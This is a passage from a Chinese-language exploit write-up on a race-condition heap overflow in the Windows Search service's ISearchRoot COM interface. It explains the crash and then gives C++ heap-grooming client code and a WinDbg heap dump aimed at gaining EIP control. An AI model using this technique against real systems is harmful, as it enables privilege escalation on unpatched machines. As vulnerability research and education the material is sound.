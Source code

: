 由此就导致了崩溃。

[![](https://p4.ssl.qhimg.com/t0189b26146e294c82b.png)](https://p4.ssl.qhimg.com/t0189b26146e294c82b.png)

毫无疑问，在StringCchCopyW函数复制RootURL数据之前，竞争条件就已经成功，并且导致堆溢出。



## EIP控制

为了控制EIP，我们需要为存在漏洞的服务器堆创建一个对象。

我们编写了如下的客户端代码，以跟踪堆的状态。

```
int wmain(int argc, wchar_t *argv[])
`{`
    CoInitializeEx(NULL, COINIT_MULTITHREADED | COINIT_DISABLE_OLE1DDE);
    ISearchRoot *pISearchRoot[20];
    for (int i = 0; i &lt; 20; i++) `{`
        CoCreateInstance(CLSID_CSearchRoot, NULL, CLSCTX_LOCAL_SERVER, IID_PPV_ARGS(&amp;pISearchRoot[i]));
    `}`
    pISearchRoot[3]-&gt;Release();
    pISearchRoot[5]-&gt;Release();
    pISearchRoot[7]-&gt;Release();
    pISearchRoot[9]-&gt;Release();
    pISearchRoot[11]-&gt;Release();


    CreateThread(NULL, 0, thread_putter, (LPVOID)pISearchRoot[13], 0, NULL);
    CreateThread(NULL, 0, thread_getter, (LPVOID)pISearchRoot[13], 0, NULL);
    Sleep(500);

    CoUninitialize();
    return 0;
`}`
```

由此发现，如果客户端不释放pISearchRoot对象，那么IRpcStubBuffer对象将会保留在服务器堆上。并且，我们还发现，IRpcStubBuffer对象位于漏洞所在堆的位置附近。

```
0:010&gt; !heap -p -all
    ...
    03d58f10 0005 0005  [00]   03d58f18    0001a - (busy)     &lt;-- CoTaskMalloc return
        mssprxy!_idxpi_IID_Lookup &lt;PERF&gt; (mssprxy+0x75)
    03d58f38 0005 0005  [00]   03d58f40    00020 - (free)
    03d58f60 0005 0005  [00]   03d58f68    0001c - (busy)     &lt;-- IRpcStubBuffer Obj
      ? mssprxy!_ISearchRootStubVtbl+10
    03d58f88 0005 0005  [00]   03d58f90    0001c - (busy)
      ? mssprxy!_ISearchRootStubVtbl+10                       &lt;-- IRpcStubBuffer Obj
    03d58fb0 0005 0005  [00]   03d58fb8    00020 - (busy)
    03d58fd8 0005 0005  [00]   03d58fe0    0001c - (busy)
      ? mssprxy!_ISearchRootStubVtbl+10                       &lt;-- IRpcStubBuffer Obj
    03d59000 0005 0005  [00]   03d59008    0001c - (busy)
      ? mssprxy!_ISearchRootStubVtbl+10                       &lt;-- IRpcStubBuffer Obj
    03d59028 0005 0005  [00]   03d59030    00020 - (busy)
    03d59050 0005 0005  [00]   03d59058    00020 - (busy)
    03d59078 0005 0005  [00]   03d59080    00020 - (free)
    03d590a0 0005 0005  [00]   03d590a8    00020 - (free)
    03d590c8 0005 0005  [00]   03d590d0    0001c - (busy)
      ? mssprxy!_ISearchRootStubVtbl+10                       &lt;-- IRpcStubBuffer Obj
```
